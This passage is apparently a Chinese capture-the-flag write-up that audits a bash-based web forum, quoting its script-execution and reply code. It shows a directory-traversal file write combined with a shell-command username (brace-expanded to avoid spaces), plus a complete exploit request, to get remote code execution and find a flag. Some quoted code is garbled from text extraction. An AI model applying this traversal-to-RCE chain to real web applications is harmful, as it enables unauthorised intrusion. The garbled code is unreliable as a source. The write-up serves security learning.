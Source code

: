 ```sh
            # check if we're in a script line or not ($ at the beginning implies script line)
            # also, our extension needs to be .wtf
            [[ $ = ${line01} && ${can_execute} = 0 ]];
            is_script=$;
            # execute the line.
            if [[ $is_script = 0 ]]
            then
                cmd+=$'n'${line#$};
            else
                if [[ -n $cmd ]]
                then
                    eval $cmd  log Error during execution of ${cmd};
                    cmd=
                fi
                echo $line
            fi
        done  ${pathname}
    else
        echo pMax include depth exceeded!p
    fi
}
```

如果我们能够上传自己构造的 `.wtf` 文件的话，即可 GETShell，继续审计代码，在 `post_functions.sh` 中留意到`replay`函数：

```sh
function reply {
    local post_id=$1;
    local username=$2;
    local text=$3;
    local hashed=$(hash_username "${username}");
    curr_id=$(for d in posts/${post_id}/*; do basename $d; done | sort -n | tail -n 1);
    next_reply_id=$(awk '{print $1+1}' <<< "${curr_id}");
    next_file=(posts/${post_id}/${next_reply_id});
    echo "${username}" > "${next_file}";
    echo "RE: $(nth_line 2 < "posts/${post_id}/1")" >> "${next_file}";
    echo "${text}" >> "${next_file}";
    # add post this is in reply to to posts cache
    echo "${post_id}/${next_reply_id}" >> "users_lookup/${hashed}/posts";
}
```

当我们回复帖子时通过GET方法提交了一个 `post` 参数，此参数也存在着**目录穿越**漏洞，我们可以通过这里自定义上传文件的文件名从而写入`.wtf`。 该函数还在文件的第一行写了用户名。 因此，如果我们只是注册了一个包含有效shell命令的用户名，并将其写入`.wtf`后缀文件到我们可以访问该文件的目录中，即可达成RCE。幸运的是，`users_lookup`文件没有包含`.noread`文件，因此我们可以将`.wtf文`件写入`users_lookup`目录下。

应用程序允许注册包含特殊字符的用户，例如`$`，但是包含空格的用户名是不被允许的。 但是，因为 bash 允许执行没有空格的命令(e.g. {cat,/etc/passwd})，所以我们可以通过注册 `${find,/,-iname,get_flag2}` 用户并使用以下请求创建了回复即可获取 flag2.

```sh
POST /reply.wtf?post=../users_lookup/sh.wtf%09 HTTP/1.1
Host: 111.198.29.45:48634
Content-Type: application/x-www-form-urlencoded
Cookie: USERNAME=${find,/,-iname,get_flag2}; TOKEN=Uf7xrOWHXoRzLdVS6drbhjHyIZVsCXFgQYnOG01UhENS1aaajeezaWrgpOno8HBljrHOMmfbQUY+rES1bWlNWQ==

text=asd&submit=
```
